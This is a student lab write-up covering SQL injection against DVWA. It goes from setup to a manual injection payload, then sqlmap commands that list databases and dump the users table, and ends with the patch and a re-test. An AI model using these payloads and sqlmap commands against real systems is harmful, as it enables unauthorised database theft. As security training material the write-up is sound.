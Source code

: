 ```markdown
# SQL Injection Detection, Exploitation, and Patching Project

**Author:** Sean Johnson  
**Environment:** Kali Linux + Ubuntu VMs  
**Target App:** DVWA (Damn Vulnerable Web Application)  
**Objective:** Perform a full offensive and defensive cycle against a SQL Injection vulnerability using real-world tools and methodology.

---

## Overview

This project simulates a real-world vulnerability lifecycle:

1. Setting up a vulnerable web application (DVWA)
2. Identifying and exploiting a SQL Injection vulnerability
3. Automating the attack with sqlmap
4. Troubleshooting sessions and HTTP behavior
5. Patching the vulnerability using secure coding practices
6. Verifying the patch is effective

---

## Lab Environment

| Role     | System        | Tools                                 |
|----------|--------------|---------------------------------------|
| Attacker | Kali Linux VM | `sqlmap`, `curl`, Firefox             |
| Target   | Ubuntu VM     | Apache2, MySQL, DVWA (PHP app)        |

---

## Phase 1: Vulnerable Environment Setup

### DVWA Installation (on the Ubuntu VM)

```bash
sudo apt update
sudo apt install apache2 mysql-server php libapache2-mod-php php-mysql git
cd /var/www/html
sudo git clone https://github.com/digininja/DVWA.git
cd DVWA/config
sudo cp config.inc.php.dist config.inc.php
```

Edit `config.inc.php`:
```php
$_DVWA['db_user'] = 'dvwauser';
$_DVWA['db_password'] = 'password';
$_DVWA['enable_phpids'] = false;
$_DVWA['disable_authentication_tokens'] = true;
```

### MySQL Configuration

```sql
CREATE DATABASE dvwa;
CREATE USER 'dvwauser'@'localhost' IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwauser'@'localhost';
FLUSH PRIVILEGES;
```

### Final Steps

```bash
sudo systemctl restart apache2
```

Then visit `http://<ubuntu-ip>/DVWA/setup.php` and click **"Create / Reset Database"**.

---

## Phase 2: SQL Injection Detection & Exploitation

### Manual Injection

Navigate to:
```
http://<ubuntu-ip>/DVWA/vulnerabilities/sqli/
```
Inject:
```
1' OR '1'='1
```
**Result:** Returned a list of users (vulnerable to SQLi)

### Automated Exploitation Using sqlmap

> **Challenge:** DVWA ties sessions to IPs — needed to log in from Kali browser and grab a valid `PHPSESSID`.

Tested session:
```bash
curl -IL --cookie "PHPSESSID=abc123; security=low" "http://<ip>/DVWA/vulnerabilities/sqli/?id=1"
# Output: HTTP/1.1 200 OK
```

Then ran:
```bash
sqlmap -u "http://<ip>/DVWA/vulnerabilities/sqli/?id=1" \
  --cookie="PHPSESSID=abc123; security=low" \
  --dbs --batch --flush-session
```
**Output:**
```
[*] dvwa
[*] information_schema
```

Then dumped users:
```bash
sqlmap -u "http://<ip>/DVWA/vulnerabilities/sqli/?id=1" \
  --cookie="PHPSESSID=abc123; security=low" \
  -D dvwa -T users --dump --batch --flush-session
```

---

## Troubleshooting & Debugging Log

| Issue                                  | Fix                                                     |
|-----------------------------------------|---------------------------------------------------------|
| 302 Redirect from DVWA                  | Ensured valid PHPSESSID by logging in from Kali         |
| You have no declared cookies            | Added --cookie header with both session + security      |
| GET parameter Submit not injectable     | Ensured correct URL and that security level was low     |
| Malformed input to a URL function       | Corrected quotes and semicolon formatting               |
| sqlmap output not changing              | Used --flush-session to force fresh scan                |

---

## Phase 3: Patching the Vulnerability

1. **Elevate DVWA to “High” Security**  
   Go to: `DVWA → DVWA Security → Set to High → Submit`  
   > This updates the PHP code to use prepared statements (`PDO::prepare + bindParam`), which prevents injection.

2. **Re-Test Injection**  
   - Manual input of `1' OR '1'='1` returned no data.
   - `sqlmap` test returned:
     ```
     [WARNING] all tested parameters do not appear to be injectable.
     ```

---

## Outcome

| Phase                  | Result                     |
|------------------------|---------------------------|
| Environment Setup      | Success                   |
| SQL Injection (manual) | Confirmed vulnerability   |
| sqlmap Exploitation    | Data exfiltration completed |
| Patch via DVWA security| Effective — injection blocked |
| Re-test & Validation   | Confirmed vulnerability resolved |

---

## Key Skills Demonstrated

- Web app vulnerability analysis
- Real-world penetration testing workflow
- SQL injection attack methods and mitigation
- Session hijacking and curl/http debugging
- Use of automated tools (`sqlmap`)
- Patch validation and secure coding awareness
```
